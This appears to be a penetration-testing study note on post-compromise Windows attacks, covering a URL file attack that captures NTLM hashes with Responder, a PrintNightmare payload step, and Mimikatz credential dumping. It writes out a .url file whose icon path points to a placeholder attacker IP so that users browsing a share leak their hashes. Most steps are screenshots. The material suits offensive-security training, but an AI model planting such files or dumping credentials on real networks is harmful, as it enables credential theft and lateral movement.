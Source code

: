 ### **URL File Attacks**

* **Scenario :** You have compromised a user and this user has **any sort of file share access so we can utilize that access to capture more hashes using responder and get back to try to crack this hashes and may be get different users with more access.**
* **URL attack :**
  *   This ip address will go to be attacker ip address to catch the hash :

      ![254.jpg](../../Medi/NetworkPen%20Images/254.jpg Images/254.jpg>)
  *   Save this file in share folder :

      ![255jpg.jpg](../../Medi/NetworkPen%20Images/255jpg.jpg Images/255jpg.jpg>)

      ```html
      [InternetShortcut]
      URL=blah
      WorkingDirectory=blah
      IconFile=\\x.x.x.x\%USERNAME%.icon
      IconIndex=1
      ```

      ![256.jpg](../../Medi/NetworkPen%20Images/256.jpg Images/256.jpg>)
  *   To make this file at the top of the folder in file share folder and this ensures that it loads . **Note the filename and save as type.**

      ![257.jpg](../../Medi/NetworkPen%20Images/257.jpg Images/257.jpg>)

      * Using Responder to get the hash.

      ![258.jpg](../../Medi/NetworkPen%20Images/258.jpg Images/258.jpg>)

      * Getting hashes and you can relay to get to somewhere else it as well or crack it.
  *   **PrintNightmare (CVE-2021-1675) - Using Metasploit (msvenom) to create malicious dll to preform the attack “Generating payload” :**

      [https://github.com/cube0x0/CVE-2021-1675](https://github.com/cube0x0/CVE-2021-1675)

      ![273.jpg](../../Medi/NetworkPen%20Images/273.jpg Images/273.jpg>)

      ![274.jpg](../../Medi/NetworkPen%20Images/274.jpg Images/274.jpg>)

      ![275.jpg](../../Medi/NetworkPen%20Images/275.jpg Images/275.jpg>)

### Mimikatz

* For download : [https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)
*   Using for Dump credentials on windows , extract plaint text password , PIN code and Kerbors tickets **from memory** - **This tool can get up with windows then the tool get patched and go back and forth** :

    ![259.jpg](../../Medi/NetworkPen%20Images/259.jpg Images/259.jpg>)
